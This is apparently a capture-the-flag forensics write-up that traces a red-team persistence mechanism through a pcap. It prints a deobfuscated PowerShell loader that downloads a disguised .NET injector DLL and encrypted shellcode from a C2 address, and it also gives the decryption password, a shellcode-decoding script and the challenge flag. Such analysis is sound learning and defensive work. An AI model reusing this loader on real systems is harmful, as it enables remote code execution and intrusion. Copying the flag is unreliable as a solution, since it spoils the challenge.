









# WRITE_UP #

## RED FAILURE ##

### 1. Analysis ###
* **Given:** a pcap file named `capture.pcap`
* **Description:** During a recent red team engagement one of our servers got compromised. Upon completion the red team should have deleted any malicious artifact or persistence mechanism used throughout the project. However, our engineers have found numerous of them left behind. It is therefore believed that there are more such mechanisms still active. Can you spot any, by investigating this network capture?
* **Hints:**   
    * No hints are given

### 2. Investigation ###
The `pcap` file is quite small with 96.5% of packets captured is TCP protocol, so I directly follow TCP stream.

In the tcp stream 1, I spotted a `.ps1` file:



Using [PowerShell Deobfuscator](https://minusone.skyblue.team/), I could deobfuscate the powershell script:

```ps1
sv "YuE51" ([Type]"SySTeM.REFLEcTIOn.aSSemblY")
${a} = "currentthread"
${B} = "147.182.172.189"
${C} = 80

${E} = "9tVI0"
${f} = "z64&Rx27Z$B%73up"
${g} = ("C:f3hWindowsf3hSystem32f3hsvchost.exe".R`eplace("f3h", "\"))
${h} = "notepad"
${I} = "explorer"
${j} = "msvcp_win.dll"
${k} = "True"
${l} = "True"
${MeThODS} = @( "remotethread", "remotethreaddll", "remotethreadview", "remotethreadsuspended";)
if (${mEThOdS}.Contains.Invoke("currentthread")){
	${h} = (& "start-process" -WindowStyle "Hidden" -PassThru ${H}).I`d
}
${METhODS} = @( "remotethreadapc", "remotethreadcontext", "processhollow";)
if (${mEthODS}.Contains.Invoke("currentthread")){
	try {
		${I} = (& "get-process" ${I} -ErrorAction "Stop").Id
	}
	catch{
		${I} = 0
	}
}
${cMD} = "${A} /sc:http://${B}:${C}/${E} /password:${F} /image:${G} /pid:${H} /ppid:${I} /dll:${J} /blockDlls:${K} /am51:${L}"
${dAtA} = (& "iwr" -UseBasicParsing "http://147.182.172.189:80/user32.dll").C`ontent
${AssEM} = (ls "vaRIaBLe:yUE51").Va`lue::Load.Invoke(${dAtA})
${fLAGS} = [Reflection.bindingflags]"NonPublic,Static"
${clASs} = ${asSEm}.Gettype.Invoke("DInjector.Detonator", ${flAgS})
${EnTRY} = ${ClASS}.Getmethod.Invoke("Boom", ${fLAGS})
${EntRY}.I`n`voke(${nULL}, (, ${cmd}.Split.Invoke(" ")))
```

This PowerShell script acts as a loader for a `.NET` dll disguised as `user32.dll`. It prepares the DInjector runtime arguments, downloads the DLL from the C2 server `147.182.172.189`, loads it directly into memory using `System.Reflection.Assembly.Load`, and invokes the private static method `DInjector.Detonator.Boom()`

The encrypted shellcode payload is hosted at: `http://147.182.172.189:80/9tVI0`. The decryption password is: `z64&Rx27Z$B%73up`

The script builds a command similar to:

```ps1
currentthread /sc:http://147.182.172.189:80/9tVI0 /password:z64&Rx27Z$B%73up /image:C:\Windows\System32\svchost.exe /pid:notepad /ppid:explorer /dll:msvcp_win.dll /blockDlls:True /am51:True
```

In tcp stream 2, I found the malicious `user32.dll` downloaded from the C2 server via a GET request:



I saved the malware and used dnSpy to open it to find the `Boom()` function:





Seems like it tries to download a shellcode from the C2 server URL before calling `Decrypt()` function, which uses AES-CBC with PKCS7 padding to decrypt the shellcode. The AES key is derived by taking SHA-256 over the UTF-8 encoded `/password` argument in the command line. The first 16 bytes of the encrypted blob are used as the IV, and the remaining bytes are decrypted as ciphertext.





Return to the pcap file, I was able to extract the encrypted shellcode in tcp stream 3:



After computing the key hash, which is: `0996cb714b12ed96972979398e78724df2a1fa0a1c01372975fdb07e2a15ee15`, I uploaded the shellcode to CyberChef to decrypt it:



After decrypting the shellcode, I had no idea what to do with it, since I uploaded to `IDA` it didn't help me much, till then I found this article: [shellcode analysis](https://cyber00011011.github.io/CookingUpCyber/#shellCode-analysis-with-cyberChef). This help me to acknowledge another recipe: `Disassemble x86` that can disassemble the shellcode. Now I just had to choose the bit mode 64 or 32. After trying both of them, the 32 bit seems more suitable.

After getting the assembly code, I identified a self-decoder in this shellcode:
```text
fcmovnu st, st(1)
mov esi, 53D07C47h
fnstenv [esp-0Ch]
pop edx
sub ecx, ecx
mov cl, 48h
xor [edx+19h], esi
add esi, [edx+19h]
sub edx, -4
```

This decoder assigns a key `53D07C47h` to register `esi`, the `fnstenv [esp-0Ch]` and `pop edx` instructions are a common x86 shellcode trick to retrieve the current shellcode address at runtime. After that, the decoder clears `ecx` before using `mov cl` to assign `0x48` to 8 bits low of `ecx` to use it as a loop counter and starts decoding data at offset `0x19` from the shellcode base.

For each 4-byte block, it xor the encoded `DWORD` with the current key stored in `esi`, then updates the key by adding the newly decoded `dword`. This means the key changes after every decoded block.

So I wrote a python script to mimic the decoder:

```python
from pathlib import Path

p = bytearray(Path("9tVI0_shellcode_x86.bin").read_bytes())

key = 0x53D07C47
start = 0x19
count = 0x48

for i in range(count):
      off = start + i * 4
      d = int.from_bytes(p[off:off + 4], "little")
      d ^= key
      p[off:off + 4] = d.to_bytes(4, "little")
      key = (key + d) & 0xFFFFFFFF

Path("9tVI0_shellcode_x86_decoded.bin").write_bytes(p)
```

After decoding, the shellcode became readable, I used strings and obtained the flag:



### 3. Solution ###
1. **Result:** The flag is `HTB{00000ps_1_t0t4lly_f0rg0t_1t}`
